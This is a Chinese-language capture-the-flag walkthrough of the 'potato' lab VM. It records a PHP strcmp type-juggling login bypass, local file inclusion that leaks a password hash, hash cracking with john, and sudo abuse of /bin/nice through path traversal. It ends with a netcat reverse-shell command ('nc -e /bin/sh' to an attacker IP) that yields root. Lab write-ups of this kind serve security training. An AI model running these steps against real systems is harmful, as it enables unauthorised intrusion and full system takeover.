# potato
## 信息收集
### 端口扫描
#### NMAP
全端口
```
┌──(aaron㉿aacai)-[~/Downloads/potato]
└─$ sudo nmap -p- 192.168.146.62                  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-29 15:29 HKT
Nmap scan report for 192.168.146.62
Host is up (0.00025s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2112/tcp open  kip
MAC Address: 00:0C:29:FB:BC:B1 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 8.23 seconds

```
指定端口
```
┌──(aaron㉿aacai)-[~/Downloads/potato]
└─$ sudo nmap -p22,80,2112 192.168.146.62
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-29 15:30 HKT
Nmap scan report for 192.168.146.62
Host is up (0.00049s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2112/tcp open  kip
MAC Address: 00:0C:29:FB:BC:B1 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 6.76 seconds
                                                                                                                                                                            
┌──(aaron㉿aacai)-[~/Downloads/potato]
└─$ sudo nmap -p22,80,2112 -sV -A 192.168.146.62
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-29 15:30 HKT
Nmap scan report for 192.168.146.62
Host is up (0.00035s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
MAC Address: 00:0C:29:FB:BC:B1 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.35 ms 192.168.146.62

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.67 seconds

```
### FTP信息收集
因为在nmap收集信息的时候, 看到FTP允许匿名登录, 所以登录上去查看一下能否下载文件
```
└─$ ftp 192.168.146.62 2112 
Connected to 192.168.146.62.
220 ProFTPD Server (Debian) [::ffff:192.168.146.62]
Name (192.168.146.62:aaron): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.146.50 !
230-
230-The local time is: Fri Jul 29 07:34:13 2022
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44960|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||53662|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901       11.45 MiB/s 
226 Transfer complete
901 bytes received in 00:00 (1.85 MiB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||54469|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54        1.19 MiB/s 
226 Transfer complete
54 bytes received in 00:00 (108.06 KiB/s)
ftp> exit
221 Goodbye.
```
可以下载, 下载之后查看一下里面的信息
```
└─$ cat welcome.msg 
Welcome, archive user %U@%R !

The local time is: %T

┌──(aaron㉿aacai)-[~/Desktop/potato]
└─$ cat index.php.bak 
<html>
<head></head>
<body>

<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>


  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>
                                          
```
发现是一个php的源码, 并且$pass=potato
### WEB页面信息收集
直接访问页面只能发现两段文字和一张土豆的图片
<br>

<br>
试试目录枚举
```
└─$ dirsearch -u "192.168.146.62"          

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/aaron/.dirsearch/reports/192.168.146.62_22-07-29_15-38-50.txt

Error Log: /home/aaron/.dirsearch/logs/errors-22-07-29_15-38-50.log

Target: http://192.168.146.62/

[15:38:50] Starting: 
[15:38:56] 301 -  316B  - /admin  ->  http://192.168.146.62/admin/
[15:38:56] 200 -  466B  - /admin/
[15:38:56] 200 -  466B  - /admin/?/login
[15:38:57] 200 -  466B  - /admin/index.php
[15:38:57] 200 -    1KB - /admin/logs/
[15:39:10] 200 -  245B  - /index.php
[15:39:10] 200 -  245B  - /index.php/login/

```
发现了admin目录, 查看页面源代码
<br>

发现布局是跟我们一开始获取到的.bak一样的
<br>
分析一下源码
```
<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
在这个地方使用了strcmp函数来比较提交的admin和$password
而我们需要让这两个变量的值==0, 这时候用到owasp官网的一个文档
https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf
这里面介绍了一个利用的方法
```

<br>
在这里, 我们提交的参数默认为username=admin&password="123456",使用password[]即可代替一个password string
<br>
使用burp抓包更改提交参数并重发包查看响应包
<br>
第一次的时候我并没有改password的变量名, 所以发过去响应回来是bad user/password

<br>
修改password的变量名, 重发

<br>
这次返回回来了welcome, 接下来去proxy发送出去
<br>

<br>
然后可以进入dashboard.php的界面
<br>
查看各个不同的界面
<br>

<br>

<br>

<br>



<br>

<br>
可以看到ping这个界面是可以回显命令的
<br>
那么说不定这里面就有LFI, 使用burp一点点试试看

<br>
果然, 存在LFI
<br>
并且在最后一行显示出了一个webadmin的hash密码, 保存到本地用john爆破一下
```
┌──(aaron㉿aacai)-[~/Desktop/potato]
└─$ john passwd.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
dragon           (webadmin)     
1g 0:00:00:00 DONE 2/3 (2022-07-29 16:25) 33.33g/s 42000p/s 42000c/s 42000C/s 123456..larry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                      
┌──(aaron㉿aacai)-[~/Desktop/potato]
└─$ 

```
很轻松的跑出来了
## 突破边界
使用ssh登录
```
webadmin@serv:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:fb:bc:b1 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.62/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 68449sec preferred_lft 68449sec
    inet6 fe80::20c:29ff:fefb:bcb1/64 scope link 
       valid_lft forever preferred_lft forever
webadmin@serv:~$ whoami
webadmin
webadmin@serv:~$ ls
user.txt
webadmin@serv:~$ cat user.txt 
TGUgY29udHLDtGxlIGVzdCDDoCBwZXUgcHLDqHMgYXVzc2kgcsOpZWwgcXXigJl1bmUg
webadmin@serv:~$ id
uid=1001(webadmin) gid=1001(webadmin) groups=1001(webadmin)
webadmin@serv:~$ 
```
获取到了user的flag
<br>
查看目录下的文件
```
webadmin@serv:~$ ls -al
total 32
drwxr-xr-x 3 webadmin webadmin 4096 Aug  2  2020 .
drwxr-xr-x 4 root     root     4096 Aug  2  2020 ..
-rw------- 1 webadmin webadmin  357 Aug  2  2020 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug  2  2020 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug  2  2020 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug  2  2020 .cache
-rw-r--r-- 1 webadmin webadmin  807 Aug  2  2020 .profile
-rw------- 1 webadmin root       69 Aug  2  2020 user.txt
webadmin@serv:~$ 
查看.bash_history
webadmin@serv:~$ cat .bash_history
ls
exit
ls
sudo -l
exit
sudo -l
exit
sudo -l
exit
ls
sudo -l
sudo /bin/cat /etc/passwd
sudo /bin/cat /etc/passwd ; ls /root
exit
sudo -l
mkdir notes
exit
ls
cd ..
sudi -l
sudo -l
sudo /bin/ls /root/notes/test.txt
sudo /bin/ls /root/notes/test.txt /root
exit
sudo /bin/nice /root/notes/
sudo /bin/nice /root/notes/*
ls
exit
sudo /bin/nice /root/notes/*
exit
```
在这里面可以看到该用户使用了sudo, 那么这个用户是拥有sudo权限的文件的, 用sudo -l查看一下
```
webadmin@serv:~$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
webadmin@serv:~$ 

```
这里跟我们说用户可以使用/bin/nice去执行/notes/下任意的东西

<br>
并且这里都是使用root权限才可以查看的, nice查看一下
```
webadmin@serv:/notes$ sudo /bin/nice /notes/id.sh
uid=0(root) gid=0(root) groups=0(root)
webadmin@serv:/notes$ 

```
原来这里就是直接执行命令, 那我们写一个nc的sh

```
webadmin@serv:~$ echo "nc -e /bin/sh 192.168.146.50 4444" >> nc.sh
webadmin@serv:~$ ls
nc.sh  user.txt
webadmin@serv:~$ pwd
/home/webadmin
webadmin@serv:~$ sudo /bin/nice /notes/../home/webadmin/nc.sh
/bin/nice: ‘/notes/../home/webadmin/nc.sh’: Permission denied
webadmin@serv:~$ chmod 777 nc.sh
webadmin@serv:~$ sudo /bin/nice /notes/../home/webadmin/nc.sh

```
最后, 起监听, 接shell

```
┌──(aaron㉿aacai)-[~/Desktop/potato]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.146.50] from (UNKNOWN) [192.168.146.62] 38818
id
uid=0(root) gid=0(root) groups=0(root)
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:fb:bc:b1 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.62/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 67885sec preferred_lft 67885sec
    inet6 fe80::20c:29ff:fefb:bcb1/64 scope link 
       valid_lft forever preferred_lft forever
cd 
ls
root.txt
snap
cat root.txt
bGljb3JuZSB1bmlqYW1iaXN0ZSBxdWkgZnVpdCBhdSBib3V0IGTigJl1biBkb3VibGUgYXJjLWVuLWNpZWwuIA==
whoami
root
```


